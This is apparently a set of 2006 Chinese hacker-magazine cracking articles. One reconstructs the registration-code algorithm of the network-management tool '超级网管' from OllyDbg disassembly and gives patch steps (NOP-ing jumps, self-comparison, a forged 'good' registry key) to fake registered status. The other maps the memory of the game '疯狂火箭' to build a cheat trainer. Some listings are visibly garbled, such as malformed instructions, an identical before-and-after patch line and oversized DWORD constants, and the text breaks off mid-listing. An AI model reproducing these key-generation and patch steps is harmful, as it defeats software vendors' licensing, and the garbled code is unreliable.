用OlllyDbg载入程序,F9运行。在进入注册界面后,输入相关信息,设置好断点。确定后,软件对输入数据进行了一些相应处理(为节省篇幅,省略相关代码)。运行到这里后,得到申请码 + 注册版本号组合形如:58A8D4583776B86660。其中最后两位60为注册版本号。你可以选择其他版本号。

```
004AE3D8  CALL 超级网管.004050CC  ; 分离前8位
004AE3DD  MOV DWORD PTR SS:[EBP-30],20756F59
; 赋值 s1=0x20756F59
004AE3E4  MOV DWORD PTR SS:[EBP-2C],20657261
; s2=0x20657261
004AE3EB  MOV DWORD PTR SS:[EBP-28],20676962
; s3=0x20676962
004AE3F2  MOV DWORD PTR SS:[EBP-24],65646765
; s4=0x65646765
004AE3F9  XOR ECX,ECX
004AE3FB  MOV EAX,4          ; 计算4次
004AE400  /MOV EDX,DWORD PTR SS:[EBP-C]
; 指向前8位
004AE403  MOVZX EDX,BYTE PTR DS:[EDX+EAX-1]
; 读取一位
004AE408  ADD ECX,EDX        ; 累加
004AE40A  SHL ECX,8          ; 结果*256
004AE40D  DEC EAX
004AE40E  CMP EAX,1
004AE411  \JNZ SHORT 超级网管.004AE400  ; 前4位转化成整数N1
004AE413  MOV EAX,DWORD PTR SS:[EBP-C]
004AE416  MOVZX EAX,BYTE PTR DS:[EAX]
004AE419  ADD ECX,EAX
58A8-->N1 = 38413835
004AE41B  MOV EAX,8
004AE420  /MOV EDX,DWORD PTR SS:[EBP-C]
; 指向后8位
004AE423  MOVZX EDX,BYTE PTR DS:[EDX+EAX-1]
; 读取一位
004AE428  ADD EBX,EDX
004AE42A  SHL EBX,8
004AE42D  DEC EAX
004AE42E  CMP EAX,5
004AE431  \JNZ SHORT 超级网管.004AE420  ; 后4位转化成整数N2
004AE433  MOV EAX,DWORD PTR SS:[EBP-C]
004AE436  MOVZX EAX,BYTE PTR DS:[EAX+4]
004AE43A  ADD EBX,EAX
D458-->N2 = 38353444
```

到了这里,已经准备好6个数据
s1=0x20756F59
s2=0x20657261
s3=0x20676962
s4=0x65646765
ECX=N1=0x38413835
EBX=N2=0x38353444

```
004AE43C  XOR EDX,EDX
004AE43E  MOV EAX,20
004AE443  /ADD EDX,9E3779B9    ; +0x9E3779B9
```

```
004AE449  |MOV ESI,EBX        ; 转移N2
004AE44B  |SHL ESI,8          ; N2*256
004AE44E  |ADD ECX,ESI        ; N1+N2*256
004AE450  |MOV ESDWORD PTR SS:[EBP-2C] ; s2
004AE453  |XOR ESI,EBX        ; s2 xor N2
004AE455  |ADD ECX,ESI        ; N1+N2*256+s2 xor N2
004AE457  |MOV ESI,EBX        ; 转移N2
004AE459  |SHR ESI,0
004AE45C  |XOR ESI,EDX
004AE45E  |ADD ECX,ESI
004AE460  |ADD ECX,DWORD PTR SS:[EBP-30] ; s1
004AE463  |MOV ESI,ECX
004AE465  |SHL ESI,8
004AE468  |ADD EBX,ESI
004AE46A  |MOV ESI,DWORD PTR SS:[EBP-24]; s4
004AE46D  |XOR ESI,ECX
004AE46F  |ADD EBX,ESI
004AE471  |MOV ESI,ECX
004AE473  |SHR ESI,0
004AE476  |XOR ESI,EDX
004AE478  |ADD EBX,ESI
004AE47A  |ADD EBX,DWORD PTR SS:[EBP-28]
; s3
004AE47D  |DEC EAX
004AE47E  \JNZ SHORT 超级网管.004AE443  ; 计算32次
```

计算方法描述:

```
ECX=ECX+(EBX shl 8)+(s2 xor EBX)+(EBX xor EDX)+s1
EBX=EBX+(ECX shl 8)+(s4 xor ECX)+(ECX xor EDX)+s3
```

运算结果保留在ECX中。

```
004AE480  MOV EAX,ECX
004AE482  AND EAX,3FFFFFFF
004AE487  ADD EAX,2
004AE48A  XOR EDX,EDX
004AE48C  MOV DWORD PTR SS:[EBP-18],EAX
; 保存
004AE48F  MOV DWORD PTR SS:[EBP-14],EDX
```

中间结果 zj1=(ECX and 0x3FFFFFFF)+2

```
004AE492  MOV EAX,ECX
004AE494  SHR EAX,1E
004AE497  ADD EAX,18FF8050
004AE49C  ADD EAX,2
004AE49F  XOR EDX,EDX
004AE4A1  MOV DWORD PTR SS:[EBP-20],EAX
; 保存
004AE4A4  MOV DWORD PTR SS:[EBP-1C],EDX
```

中间结果 zj2=(ECX shr 0x1E)+0x18FF8052
以上过程有前面的计算结果产生两个中间结果,为再次计算作准备。

```
004AE4A7  PUSH DWORD PTR SS:[EBP-14] ; /Arg6
004AE4AA  PUSH DWORD PTR SS:[EBP-18]
; |zj1
004AE4AD  PUSH 0              ; |Arg4 = 00000000
004AE4AF  PUSH 2C86F9         ; |常数2
004AE4B4  PUSH 0              ; |Arg2 = 00000000
004AE4B6  PUSH 69AAA0E3       ; |常数1
004AE4BB  CALL 超级网管.004AE2A8  ; \超级网管.004AE2A8
004AE4C0  MOV DWORD PTR SS:[EBP-18],EAX
; 保存结果1
```

www.hacker.com.cn
2006 精华奉献本 下册


;Arg6
004AE4C3 MOV DWORD PTR SS:[EBP-14],EDX
004AE4C6 PUSH DWORD PTR SS:[EBP-1C]
004AE4C9 PUSH DWORD PTR SS:[EBP-20] ; |z|
004AE4CC PUSH 0 ; |Arg4 = 00000000
004AE4CE PUSH 2C86F9 ; |Arg3 = 002C86F9
004AE4D3 PUSH 0 ; |Arg2 = 00000000
004AE4D5 PUSH 69AAA0E3 ; |Arg1 = 69AAA0E3
004AE4DA CALL <JMP.&超级网管.004AE2A8> ; \超级网管.004AE2A8
004AE4DF MOV DWORD PTR SS:[EBP-20],EAX ; 保存结果2
004AE4E2 MOV DWORD PTR SS:[EBP-1C],EDX
```

以上过程分两次调用同一函数，分别得到两个结果。鉴于代码较长，先略过这一部分的描述。

```
004AE4E5 PUSH DWORD PTR SS:[EBP-1C] ; /Arg2
004AE4E8 PUSH DWORD PTR SS:[EBP-20] ; |Arg1
004AE4EB LEA EDX,DWORD PTR SS:[EBP-34] ; |
004AE4EE MOV EAX,8 ; |
004AE4F3 CALL 超级网管.00409574 ; \字符化结果2
004AE4F8 MOV EAX,DWORD PTR SS:[EBP-34]
004AE4FB PUSH EAX
004AE4FC PUSH DWORD PTR SS:[EBP-14] ; /Arg2
004AE4FF PUSH DWORD PTR SS:[EBP-18] ; |Arg1
004AE502 LEA EDX,DWORD PTR SS:[EBP-38] ; |
004AE505 MOV EAX,8 ; |
004AE50A CALL 超级网管.00409574 ; \字符化结果1
004AE50F MOV EDX,DWORD PTR SS:[EBP-38]
004AE512 MOV EAX,DWORD PTR SS:[EBP-8]
004AE515 POP ECX
004AE516 CALL 超级网管.00404D94 ; 拼接两结果,形成注册码
```

经过上述计算后，已经得到了软件的注册码。

#### 算法总结

注册码的产生，并未用到全部的注册申请码及注册版本号，只用到申请码的前8位。由申请码的前8位，组建两个整数，利用这两个整数和内置常数交织运算32次，得到一个新的结果。再利用这个结果产生两个中间结果，由它们经过同一函数的计算得到注册码的整数表示。最后将所得到的结果转化成十六进制字符，拼接起来既得到注册码。

#### 软件Bug及其修改

在注册流程中，通过上述计算后，软件会向你报注册成功。然而你重新启动时，还是未注册状态。
起初，我以为是中招了。通过对注册成功提示后的软件操作过程进行仔细跟踪，直到软件完全正常启动，也没有见到它再对注册码相关问题进行处理，我想是遇到鬼了……
本着漏掉什么代码跟踪的思想（先想自己的错），检查软件重启验证过程如下：

```
004ADFFD MOV EDX,超级网管.004AE0E8 ; ASCII "Software\\wdywwn\setNetMaster"
004AE002 MOV EAX,EBX
004AE004 CALL 超级网管.0046EA14 ; 查找注册表主键值
004AE009 TEST AL,AL
```

```
004AE00B JE SHORT 超级网管.004AE03A
004AE00D LEA ECX,DWORD PTR SS:[EBP-C]
004AE010 MOV EDX,超级网管.004AE110 ; ASCII "setNameMd"
004AE015 MOV EAX,EBX
004AE017 CALL 超级网管.0046EDF4 ; 读取申请码存放路径
Software\\wdywwn\setNetMaster\setNameMd
004AE01C LEA ECX,DWORD PTR SS:[EBP-8]
004AE01F MOV EDX,超级网管.004AE124 ; ASCII "setNetMaster"
004AE024 MOV EAX,EBX
004AE026 CALL 超级网管.0046EDF4
004AE02B LEA ECX,DWORD PTR SS:[EBP-14]
004AE02E MOV EDX,超级网管.004AE13C
004AE033 MOV EAX,EBX
004AE035 CALL 超级网管.0046EDF4 ; 读取注册版本号存放路径
Software\\wdywwn\setNetMaster
004AE03A MOV CL,1
004AE03C MOV EDX,超级网管.004AE148 ; ASCII "Software\\Microsoft\\Windows\\CurrentVersion\\Shell Extensions\\Approved"
004AE041 MOV EAX,ESI
004AE043 CALL 超级网管.0046EA14
004AE048 TEST AL,AL
004AE04A JE SHORT 超级网管.004AE05B
004AE04C LEA ECX,DWORD PTR SS:[EBP-10]
004AE04F MOV EDX,超级网管.004AE194 ; ASCII "{E3WET6E6-ABCE-32d0-BC4B-00CRRT5T629D}"
004AE054 MOV EAX,ESI
004AE056 CALL 超级网管.0046EDF4 ; 读取是否注册标志
存放路径：Software\Microsoft\Windows\CurrentVersion\Shell Extensions\Approved\{E3WET6E6-ABCE-32d0-BC4B-00CRRT5T629D}
004AE05B CMP DWORD PTR SS:[EBP-C],0 ; 注册码可读？
004AE05F JE SHORT 超级网管.004AE0A7
004AE061 CMP DWORD PTR SS:[EBP-14],0 ; 版本号可读？
004AE065 JE SHORT 超级网管.004AE0A7
004AE067 LEA EAX,DWORD PTR SS:[EBP-1C]
004AE06A MOV ECX,DWORD PTR SS:[EBP-14] ; 取出版本号
004AE06D MOV EDX,DWORD PTR SS:[EBP-C] ; 取出注册码
004AE070 CALL 超级网管.00404D94 ; 组建 注册码&版本号
004AE075 MOV EDX,DWORD PTR SS:[EBP-1C] ; 组合结果
004AE078 LEA ECX,DWORD PTR SS:[EBP-18]
004AE07B MOV EAX,EDI
004AE07D CALL 超级网管.004AE38C ; 调用注册码计算函数
004AE082 MOV EDX,DWORD PTR SS:[EBP-18] ; 计算结果
004AE085 MOV EAX,DWORD PTR SS:[EBP-8] ; ？？
004AE088 CALL 超级网管.00404E8C ; 验证验证注册码正确性比较！
```

这个函数是检验注册码的正确性的。其中，[EBP-18]存放的是经过计算得到的注册码的地址，参与比较的另一数据的地址在[EBP-8]中，这里应该是保存着注册码。然而，你可看见它有在注册表中读取注册码的过程？没有。对应位置为空。所以下面一定跳走。

## SECRET OF CRACK

| 栏目编辑 | lcefire | lcefire@hacker.com.cn |
| --- | --- | --- |

到这里我们就看到了软件的Bug了。
之一，提示注册成功时，软件未对注册信息予以保存。
之二，既未保存注册信息，又没有读取注册信息的操作，却要进行注册码的比较。
解决这里的问题的方法有两种，一是nop掉下面的这个跳转，一是修改

```assembly
004AE085 MOV EAX,DWORD PTR SS:[EBP-8]
```

为：

```assembly
004AE085 MOV EAX,DWORD PTR SS:[EBP-8]
```

让软件自己跟自己比较，就不会发生跳转现象了。

```assembly
004AE08D JNZ SHORT 超级网管.004AE0AC
```

别以为你现在就可以看到正式注册版了！修改了这里，运行时你看到的还是未注册版本。在读取注册表的操作过程中，你应该注意到这个注册键

```
Software\Microsoft\Windows\CurrentVersion\ShellExtensions\Approved\{E3WET6E6-ABCE-32d0-BC4B-00CRRT5T629D}
```

它的作用是什么？且看下面的代码

```assembly
004AE08F MOV EAX,DWORD PTR SS:[EBP-10]
004AE092 MOV EDX,超级网管.004AE1C4 ;ASCII "good"
004AE097 CALL 超级网管.00404E8C ;验证验证注册标志
004AE09C JNZ SHORT 超级网管.004AE0AC
```

以上代码是将读取的键值与字符串“good”进行比较。如果相等，则不发生跳转，软件界面显示相关注册信息，否则显示未注册字样。
这是第三处Bug，因为注册过程中，显示注册成功时并未建立这个键值。解决的方法也有两种：
- nop 004AE09C JNZ SHORT 超级网管.004AE0AC。
- 在注册表中建立主键 Software\Microsoft\Windows\CurrentVersion\ShellExtensions\Approved\{E3WET6E6-ABCE-32d0-BC4B-00CRRT5T629D}
  其键值为 good。

当以上两个验证均通过时，软件才会在界面上显示注册信息。如图1所示。


![图1]

爆破修改后，注册过程还是不可少的，否则不能显示出注册版本号，以免影响软件的使用（功能受限）。
这或许不是Bug，而是因为是Beta版的缘故吧（在网上未见到什么正式版之类的）！

适合读者：破解爱好者，程序员
前置知识：C语言/汇编基本阅读能力

### 疯狂火箭

#### 疯狂火箭分析及辅助程序编写

文/图 sjlagc

调试器：OllyDbg
内存定位器：FPE
上班前的最后一个假期在家觉得无聊，教教爸妈打小游戏。其中的“疯狂火箭”笔者觉得算法值得研究研究。于是二话没说，拿出心爱的OD便开始了……
笔者一开始玩的是它里面的第一种游戏——Classic。这是以时间为限制的游戏，在时间结束后它会显示“Out Of Time!”，所以可以从这里入手。在OD的内存映射中查找它，找到地址为004E6614。在代码查找框中的HEX栏里输入“14664E”来到如下地方：

```assembly
004204AC   mov eax,dword ptr ds:[ebx+5C]
; 结局标志，等于1则游戏结束
004204AF   cmp eax,1
004204B2   jnz RocketMa.00420544
004204B8   mov eax,dword ptr ds:[ebx+460]
; 临时游戏类型
004204BE   cmp eax,1
004204C1   jnz short RocketMa.004204CA
```

```assembly
004204C3   mov edi,RocketMa.004E6634
; ASCII "Game Over!", Arcade 类游戏
004204C8   jmp short RocketMa.004204D9
004204CA   cmp eax,2
004204CD   mov edi,RocketMa.004D6624
; ASCII "Out of Matches!", Strategy 类游戏
004204D2   je short RocketMa.004204D9
004204D4   mov edi,RocketMa.004E6614
; ASCII "Out Of Time!", Classic类游戏
```

以上代码在专管显示的函数中，对里面跳转的修改只影响显示而不影响结局，所以要以ebx+5C为线索深入分析。值得一提的是这里的ebx，它存的是一个很重要的数据表。表里存有关于游戏的很多数据，姑且称它为TTable。用溯源法可以得知它的地址存在4F6460+598处，这样在辅助程序中就可以定位这个表了。TTable+460处存的是临时的游戏类型，真正的游戏类型存在4F6460+530处，4F6460+534处存有难度。
下面在TTable+5C，也就是结局标志处设下写入断点,用完时间后会断在00421E10处,在这个函数中清晰地有“GameOver”的调试字符串(作者真是体贴啊!)。在此函数入口地址处加标签为“GameOver”,按Ctrl+F9执行到返回,看看程序是如何“GameOver”的。分析周围代码如下:

```
004266AB:  fld qword ptr ds:[esi+310]
; 载入实际时间量
004266B1:  fsub qword ptr ds:[esi+320]
; 减去实际时间单位减少量,正常为0.01
004266B9:  fstp qword ptr ds:[esi+310]
; 回存实际时间量
……
00426732:  fld qword ptr ds:[esi+310]
; 实际时间量
00426738:  fcomp qword ptr ds:[4C4620]  ; 0.0
0042673E:  fstsw ax
00426740:  test ah,41
00426743:  jpe short RocketMa.0042676E
; 时间用完就不跳,运行到GameOver函数
……
0042676E:  fld qword ptr ds:[esi+318]
; 载入显示时间量
00426774:  fcomp qword ptr ds:[esi+310]
; 与实际时间量相比
0042677A:  fstsw ax
0042677C:  and eax,4100
00426781:  jnz short RocketMa.004267BA
; 大于则不跳
00426783:  fld qword ptr ds:[esi+318]
; 载入显示时间量
00426789:  fsub qword ptr ds:[4C49F8]
; 减去0.01
0042678F:  fstp qword ptr ds:[esi+318]
; 回存显示时间量
```

在上面分析的基础上,我们再往上看有这么一段,是处理时间被冰冻的情况的:

```
00426644  mov eax,dword ptr ds:[esi+4BC]
; 冰冻时间量
0042664A  cmp eax,ebx          ; 与0比较
0042664C  jle short RocketMa.004266A3
; 大于0则不跳
0042664E  dec eax              ; 冰冻时间量减1
……
00426651  mov dword ptr ds:[esi+4BC],eax
; 回存冰冻时间量
```

说明一下冰冻时间量是unsigned long型的变量,单位是百分之一秒。

时间就分析到这儿了,下面看游戏中的一些明显的量化数据,像 总分、关数、发射火箭数、金币和剩余火种数。读者有兴趣可以从程序中分析到地址,笔者由于时间仓促偷了一下懒,直接用FPE定位了一下。结果如下:
总分 TTable+60,关数 TTable+70,发射火箭数TTable+374,金币 TTable+A8,剩余火种数TTable+108.其中要注意笔者用FPE不能定位剩余火箭数,分析了程序才知道 程序在TTable+74处存有需发射火箭数,而在TTable+374处存有已发射火箭数,两者的差就是界面上显示的剩余火箭数。至于如何分析,作者是通过每发射一次火箭总分变化而找出来的,具体代码如下:

```
00425F70:  mov ecx,dword ptr ds:[esi+374]
; 已发射火箭数存入Ecx
……
00425F77  inc ecx              ; 加1
00425F78  mov dword ptr ds:[esi+374],ecx  ; 回存
```

在上面的代码周围有一些非常关键的代码,用来判断是否能发射火箭,得看看。先对程序中的数据结构作一下说明,有助于理解这些代码。
TTable+22C起始有一个火箭地址数组,共9个DWORD元素,每个元素存有一个火箭结构的首地址,共9枚火箭。令火箭结构首地址为RcktAddr。则RcktAddr+A0是当前火箭等级,此等级由以下方法得到。在TTable+4EC处有一个数据表,命名为CTable。在CTable+40处开始的9个DWORD元素依次存有九枚火箭的实际火箭等级。
TTable+114起始有一个方块地址数组,是二维数组,9×6DWORD大小,和界面上的9行6列的管道方块一致。其每一个元素存有一个方块结构的首地址。令方块结构首地址为TileAddr。则TileAddr+64是连通标志,若在连通火种和火箭的线路上则为4,否则为1。TileAddr+68是方块的类型,0-4五种。TileAddr+6C是方块的方向,0-3个方向。TileAddr+8C是方块上所连道具、金币或火种的结构地址,为0则没有连接任何东西。
004C78B8处有一个类型方向数组,在游戏程序中很有用,C语言定义如下:

```c
DWORD dwKndDirArray[5][4]={
    0x05,    0x0A,    0x05,    0x0A,
    0x03,    0x06,    0x0C,    0x09,
    0x0E,    0x0D,    0x0B,    0x07,
    0x0F,    0x0F,    0x0F,    0x0F,
    0x01,    0x02,    0x04,    0x08
};
```

这个数组以类型为一维下标,方向为二维下标。我们以弯形管道方块为例看看这个数组的作用如图1所示。


首先要知道程序中,1代表向上,2代表向右,4代表向下,8代表向左。弯形的类型代号是01,故应考察类型方向数组的第二行,其元素值与我们算出来的一样。这样,要判断方块能与哪些方向连接只要依次用1、2、4、8与类型方向数组的值做与运算,值不为0则能连接。如要判断02号方向的弯形方块能否与右、下方连接则dwKndDirArray[1][2]=0x0C,0x0C&0x02=0x00,0x0C&0x04=0x04。说明02号方向的弯形方块能与下方(0 4)相连,而不能与右方(0 2)相连。
下面看刚才的周围代码。


## SECRET OF CRACK

> 栏目编辑:icefire/icefire@hacker.com.cn

```asm
00425E52  mov ecx,dword ptr ds:[esi+4E8]
; 行数上界存入Ecx
......
00425E68  lea edi,dword ptr ds:[esi+22C]
; 火箭地址数组首地址存入Edi
00425E6E  mov dword ptr ss:[ebp-4],edx
00425E71  mov eax,dword ptr ds:[esi+4E4]
; 列数存入Eax
00425E77  mov edx,dword ptr ss:[ebp-10]
; 方块地址数组偏移量Edx，按一维索引
00425E7A  add eax,edx    ; 加列数，即一行的方块数
; 每次考察一行，且只考察每行的最后一个方块，即最
; 临近火箭的方块
00425E7C  mov eax,dword ptr ds:[esi+eax*4+110]
; 方块地址存入Eax
00425E83  test eax,eax
00425E85  je RocketMa.00425F8F
00425E8B  cmp dword ptr ds:[eax+64],4
; 考察方块是否连通
00425E8F  jnz RocketMa.00425F8F  ; 未连通则跳过
......
00425EA3  mov ecx,dword ptr ds:[edi]
; 当前行上的火箭地址
00425EA5  test ecx,ecx      ; 是否有火箭
00425EA7  je RocketMa.00425F8F
; 没有则不能发射，跳过
00425EAD  mov edx,dword ptr ds:[eax+68]
; 方块类型
00425EB0  mov eax,dword ptr ds:[eax+6C]
; 方块方向
00425EB3  lea edx,dword ptr ds:[eax+edx*4]
; 在类型方向数组中的偏移
00425EB6  test byte ptr ds:[edx*4+4C78B8],2
; 考察方块是否有右向连接头
00425EBE  je RocketMa.00425F8F
; 没有则不能与火箭相连，跳过
00425EC4  mov eax,dword ptr ds:[ecx+A0]
; 当前发射的火箭等级存入Eax
00425ECA  mov ecx,dword ptr ds:[esi+4DC]
; 004F6460
00425ED0  inc eax
00425ED1  cmp dword ptr ds:[ecx+530],2 ; 游戏类型
......
00425EEB  call <RocketMa.AddToScore> ; 计算得分
......
00425F65  call <RocketMa.ClearTile>
; 清除连通方块，还有其它功能
......
00425F8F  mov eax,dword ptr ss:[ebp-C]
; 当前行号存入Eax
00425F92  mov edx,dword ptr ss:[ebp-10]
; 方块地址数组中当前索引
00425F95  mov ecx,dword ptr ds:[esi+4E8]
; 行上界存入Ecx
00425F9B  inc eax        ; 下一行
00425F9C  add edi,4      ; 指向下一火箭地址
00425F9F  add edx,6      ; 方块地址数组中跳过一个
00425FA2  cmp eax,ecx    ; 是否考察完
00425FA4  mov dword ptr ss:[ebp-C],eax
00425FA7  mov dword ptr ss:[ebp-10],edx
00425FAA  jl RocketMa.00425E71 ; 未完则跳到循环处
```

经过上面的分析我们已经能够修改已有方块的类型、方向、火箭等级，总分、关数等就更不用说了。比如我们可以将已有方块都改成十字形的，如图2所示。

知道了已有方块的地址可以通过写入断点来追踪新


图2

生方块的初始化，下面我们来看看

```asm
00424180  push ebx      ; AddTile函数入口
......
00424187  mov eax,dword ptr ds:[esi+454]  ; 考察
列序号存入Eax
0042418D  cmp dword ptr ds:[esi+eax*4+114],ebx
; 考察每列第一行方块是否为空
00424194  jnz RocketMa.00424245  ; 不为空则不用
添加新方块，跳过
0042419A  mov edi,dword ptr ds:[esi+eax*4+1BC]
; 备用方块地址数组此列的方块地址
004241A1  cmp edi,ebx ; 备用方块地址数组中有无方块
004241A3  je RocketMa.00424253  ; 无则不能添加
到已有方块中
......
004241AC  call <RocketMa.LinkBT6Ch>
; 将备用方块连入队列中
004241B1  mov dword ptr ds:[edi+64],ebx
004241B4  mov eax,dword ptr ds:[esi+454]
; 当前列存入Eax
004241BA  mov dword ptr ds:[esi+eax*4+1EC],ebx
; 将备用方块地址数组此列清零
004241C1  mov ecx,dword ptr ds:[esi+454]
004241C7  mov dword ptr ds:[esi+ecx*4+114],edi
; 将备用方块地址存入方块地址数组
......
0042422A  push ecx      ; Arg1: 当前列
0042422B  mov ecx,esi   ; Arg2: TTable地址
0042422D  call <RocketMa.NewBrickInTime>
; 计时游戏中产生新块的函数
00424232  mov edx,dword ptr ds:[esi+454]
; 当前列存入Edx
00424238  mov dword ptr ds:[esi+edx*4+1EC],eax
; 产生的新块地址存入备用块数组
0042423F  mov eax,dword ptr ds:[esi+454]
00424245  inc eax       ; 考察下一列
00424246  cdq
00424247  idiv dword ptr ds:[esi+4E4]
0042424D  mov dword ptr ds:[esi+454],edx  ; 取余
......
00424256  retn
```

上面的函数主要负责在要添加新块时将备用方块从备用方块地址数组（TTable+1EC）中取出，存入方块地址数组（TTable+114），这些操作都是列对应列的，然后再调用NewBrickInTime函数产生和初始化新块存入备用方块地址数组，这个NewBrickInTime函数得跟进去看个究竟

www.hacker.com.cn
2006 精华奉献本 下册

```asm
00423F30  push ebp                 ; NewBrickInitTime 函数入口
......
00423F4B  push 0B8                ; 方块结构大小
00423F50  mov edi,ecx
00423F52  call <RocketMa.HeapAlloc> ; 申请新堆栈
......
00423F6A  mov ecx,eax              ; 新方块结构地址
00423F6C  call <RocketMa.InitRocket>
; 初始新方块结构一般数据
......
00423FB5  call <RocketMa.GenBrickKind> ; 计算新方块类型
00423FBA  mov dword ptr ds:[esi+68],eax ; 新方块类型存储 Esi 新方块结构地址
00423FBD  mov ecx,dword ptr ds:[edi+110]
00423FC3  call <RocketMa.Random>  ; 产生随机数
00423FC8  and eax,3                ; 取后两位
00423FCB  push esi                 ; Arg1: 新方块结构地址
00423FCC  mov ecx,edi              ; Arg2: TTable地址
00423FCE  mov dword ptr ds:[esi+6C],eax
; 新方块方向存储, Esi 新方块结构地址
00423FD3  mov dword ptr ds:[esi+64],1
; 新方块连通标志为 1
00423FDA  call <RocketMa.LAny>
; 此函数负责产生宝石、炸弹和时钟等道具
00423FDD  mov ecx,dword ptr ss:[ebp-C]
00423FE0  mov dword ptr ds:[esi+8C],eax
; 产生的道具地址存入新方块, TileAddr+8C
00423FE6  mov dword ptr ds:[esi+98],0
00423FF0  mov eax,esi              ; 新方块地址返回
......
00423FFE  retn 4
```

下面跟进LAny函数看看游戏如何按一定几率产生道具的 辅助程序通过在此修改游戏程序代码以改变道具产生的概率。

```asm
00423CA0  push ebp                 ; LAny 函数入口
......
00423CD7  call <RocketMa.LinkOrNot>
; 此函数决定是否产生道具
F7跟进
0042A723  call RocketMa.0042A570
; 计算产生道具机率的分母, 分子为1
F7跟进
0042A570  mov eax,dword ptr ds:[ecx+68]
; 取出TTable存入Eax
0042A573  mov ecx,dword ptr ds:[eax+70]
; 关数存入Ecx
......
0042A57D  cmp ecx,14              ; 关数是否大于20
0042A580  jle short RocketMa.0042A588
; 大于20 概率为1/30
0042A582  mov eax,1E
0042A587  retn
0042A588  mov eax,38
0042A58D  sub eax,ecx
; 不大于20 概率为1/(38-关数)
0042A58F  retn
返回 LinkOrNot 函数
0042A735  call <RocketMa.Random>   ; 产生随机数
......
; 此段代码计算是否产生道具, 产生则返回1
......
0042A746  retn
返回 LAny 函数
00423CDC  test al,al
00423CDE  jz short RocketMa.00423D01 ; 等于0则不连
00423CE0  mov ecx,dword ptr ds:[esi+4EC]
00423CE6  call <RocketMa.LinkKind>
; 此函数决定道具种类
00423CEB  cmp eax,-1              ; 关数小于3 则返回-1
00423CEE  jle short RocketMa.00423D01
00423CF0  mov ecx,dword ptr ss:[ebp+8]
00423CF3  push ecx                ; Arg2: 新方块地址, TileAddr
00423CF4  push eax                ; Arg1: 道具类型
00423CF5  mov ecx,esi             ; Arg3: TTable
00423CF7  call <RocketMa.Link>     ; 产生连接道具
......
00423CFE  retn 4
```

经过上面的分析, 我们知道了要想提高道具的掉率只要修改0042A582和0042A588两处的代码即可, 具体参见辅助程序源代码。修改为1/1(100%)后效果。如图3所示。


其实游戏程序总是通过Link函数(入口地址00423B40)连接道具、金币和火柴的。通过它可以了解到金币和火柴的掉落数量是如何计算的。在Link函数入口设断点, 不难知道: 连不同物品, Esp+4(第一个参数)值不同, 炸弹为0x00、宝石为0x02、时钟为0x0C、金币为0x06、火柴为0x0A。容易分析得到金币和火柴掉落的数量与CTable+70的数值一致, 而这个数值根据发射火箭的多少计算得出。读者有兴趣可以对从0042AC97开始处的代码加以分析, 篇幅所限不再赘述。

振奋人心的时刻终于到了! 下面就要分析一下这个游戏的一个亮点——如何判断方块连通, 火箭可以发射。笔者认为这是此游戏代码中最值得研究的。为了更好地介绍我们先来看看游戏程序里的另一个很好的数组——方向坐标数组, 起始地址为004C7908, C语言定义如下

```c
DWORD dwDirXYArray[4][4]={
0xFFFFFFFFFF, 0x00000000, 0x00000001, 0x00000004,
0x00000000, 0x00000001, 0x00000002, 0x00000008,
0x00000001, 0x00000000, 0x00000004, 0x00000001,
0x00000000, 0xFFFFFFFFFF, 0x00000008, 0x00000002
};
```

这个数组的第三列是考察方向, 第四列是与第三列相反的方向, 第一、二列则是纵、横坐标增量。此数组是这样用的: 如果当前方块可以向右连接, 则程序先找数组的第三列为2的行, 找到第2行, 然后计算被当前方块向右连接的方块的坐标, 当前方块的行号(纵坐标)加上数组该行第一列的增量0得到被连方块的行号,当前方块的列号(横坐标)加上数组该行第二列的增量1得到列号;最后将被连方块的类型、方向代入前面介绍过的类型方向数组得到的值与方向坐标数组该行(仍为第2行)第四列8做与运算,判断被连方块有无向左的接头,即判断两个方块能否左右对接。

下面我们来看看游戏程序的代码,从FindWay函数开始:

```asm
00426070  push ebp          ; FindWay 函数入口地址
函数用来寻找连通路径,从火种或火箭开始由参数[Ebp+8]和[Ebp+C]决定。[Ebp+8]是列号,为0则从邻近火种的方块开始寻找,此时[Ebp+C]为8,判断与火种相邻方块有无左向接头;[Ebp+8]为5则从邻近火箭的方块开始寻找,此时[Ebp+C]为2。
................................
00426098  mov edx,dword ptr ss:[ebp+8]
; 考察方块列号
................................
004260A8  lea ecx,dword ptr ds:[esi+edx*4+114]
; 考察方块地址处存入Ecx
004260AF  mov dword ptr ss:[ebp-4],ecx
004260B2  mov edx,dword ptr ss:[ebp-4]
; 考察方块地址存入Edx,循环开始
................................
004260E8  cmp dword ptr ds:[edx+64],1
; 判断方块是否已连通
004260EC  jnz RocketMa.004261A9  ; 连通则跳过
004260F2  cmp dword ptr ds:[edx+74],eax
; 判断连接标志
004260F5  jnz RocketMa.004261A9
; 已连接火种或火箭则跳过
004260FB  mov ecx,dword ptr ds:[edx+68]
; 方块类型存入Ecx
004260FE  mov edx,dword ptr ds:[edx+6C]
; 方块方向存入Edx
00426101  lea ecx,dword ptr ds:[edx+ecx*4]
; 在类型方向数组中的索引
00426104  mov edx,dword ptr ss:[ebp+C]
; 需连接方向,8为连火种,2为连火箭
00426107  test dword ptr ds:[ecx*4+4C7838],edx
; 与运算
0042610E  je RocketMa.004261A9
; 为零则不能连接此方向,跳过
................................
00426129  push ebx          ; Arg2: 方块纵坐标
0042612A  push eax          ; Arg1: 方块横坐标
0042612B  mov ecx,esi       ; TTable 地址
0042612D  call <RocketMa.IsConToFire>
; 寻找连通路
................................
0042615D  call <RocketMa.SetLaunchWay>
; 能连通就发射
................................
004261B4  mov edx,dword ptr ss:[ebp-4]
; 考察方块相对TTable偏移地址
004261BA  mov eax,dword ptr ds:[esi+4E8]
; 行数上界存入Eax
004261C0  inc ebx           ; 循环变量加1
004261C1  add edx,18        ; 考察下一行, 6*4=0x18
004261C4  cmp ebx,eax       ; 是否考察完
004261C6  mov dword ptr ss:[ebp+14],ebx
; 保存循环变量
004261C9  mov dword ptr ss:[ebp-4],edx
; 回存偏移地址
004261CC  jl RocketMa.004260B2  ; 跳到循环开始
................................
004261D8  retn 18
```

显然其中的IsConToFire函数是重中之重,得分析一下

```asm
004251B0  push ebp          ; IsConToFire 入口地址
................................
0042535F  mov edi,RocketMa.004C7908
; 方向坐标数组起始地址存入Edi
00425364  mov eax,dword ptr ss:[ebp-4]
; 考察方块地址,循环开始
00425367  mov ecx,dword ptr ds:[eax+68]
; 方块类型存入Ecx
0042536A  mov edx,dword ptr ds:[eax+6C]
; 方块方向存入Edx
0042536D  lea eax,dword ptr ds:[edx+ecx*4]
00425370  mov ecx,dword ptr ds:[eax*4+4C78B8]
